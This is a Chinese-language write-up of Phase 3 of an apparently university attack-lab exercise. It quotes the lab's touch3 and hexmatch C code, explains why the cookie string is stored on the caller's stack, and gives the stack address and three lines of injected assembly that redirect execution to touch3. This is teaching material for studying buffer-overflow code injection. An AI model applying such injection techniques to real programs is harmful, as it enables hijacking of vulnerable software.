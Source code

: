 ![image-20220304233752252](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220304233752252.png)

**攻击成功！**

## Phase 3

### 分析

本题与上题类似，不同点在于传的参数是一个字符串。先给出`touch3`的C语言代码

```c
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```

`touch3`中调用了`hexmatch`，它的C语言代码为：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
    /* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
```

也就是说，我们要把`cookie`转换成对应的字符串传进去

注意第6行，`s`的位置是随机的，我们写在`getbuf`栈中的字符串很有可能被覆盖，一旦被覆盖就无法正常比较。

因此，考虑把`cookie`的字符串数据存在`test`的栈上，其它部分与上题相同，这里不再重复思路。

### 注入代码

先查找`test`栈顶指针的位置：

![image-20220305094755965](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220305094755965.png)

`0x5561dca8`，这就是我们字符串存放的位置，也是调用`touch3`应该传入的参数，又`touch3`代码的地址为`4018fa`。从而得到代码：

```assembly
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```
